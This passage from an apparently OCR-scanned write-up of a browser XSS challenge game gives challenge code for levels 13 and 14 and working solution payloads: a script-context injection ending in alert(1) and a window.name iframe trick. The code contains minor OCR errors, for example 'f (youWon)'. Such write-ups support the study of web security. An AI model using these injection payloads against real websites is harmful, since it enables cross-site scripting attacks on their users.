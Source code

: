 Solution:

```
   	 '#';alert(1)<!--
```

It will render:

```
   	 <script>'({"userdata":"';alert(1)<!--"})</script>
```

###Level 13:

```
    	function escape(s) {
    		var tag = document.createElement('iframe');
    		//For this one, you get to run any code you want,but in a "sandboxed" iframe.
   		 //
    		// http://print.alf.nu/?text=... just outputs whatever you pass in.
    		//
		// Alerting from print.alf.nu won't count; try to trigger the one below.
		s = '<script>' + s + '<\/script>';
		tag.src = 'http://print.alf.nu/?html=' + encodeURIComponent(s);
		window.WINNING = function() { youWon = true; };
		tag.onload = function() {
    			f (youWon) alert(1);
    			};
    			document.body.appendChild(tag);
    		}
```


Iframes have a interesting feature: setting the name attribute on an iframe sets the name property of the iframe’s global window object to the value of that string. Now, the interesting part is that it can be done the other way around, so an iframe can define its own window.name and the new name will be injected in the parent’s global window object if it does not exist already (it cannot overwrite it). So if we fool the framed site to declare its window.name as “youWon”, a youWon variable will be setted in the parent global window object and so the “alert(1)” will be popped

Solution:

```
    	name='youWon'
```

###Level 14:

```
    	<!DOCTYPE HTML>
	function escape(s) {
		function json(s) { 
			return JSON.stringify(s).replace(/\//g, '\\/'); 
		}

		function html(s) { 
			return s.replace(/[<>"&]/g, function(s) {
				return '&#' + s.charCodeAt(0) + ';'; 
			}); 
		}
		return (
			'<script>' +
				'var url = ' + json(s) + '; 
				// We\'ll use this later ' + '</script>\n\n' +
				' <!-- for debugging -->\n' +
				' URL: ' + html(s) + '\n\n' +
				'<!-- then suddenly -->\n' +
				'<script>\n' +
				' if (!/^http:.*/.test(url)) console.log("Bad url: " + url);\n' +
				' else new Image().src = url;\n' +
```
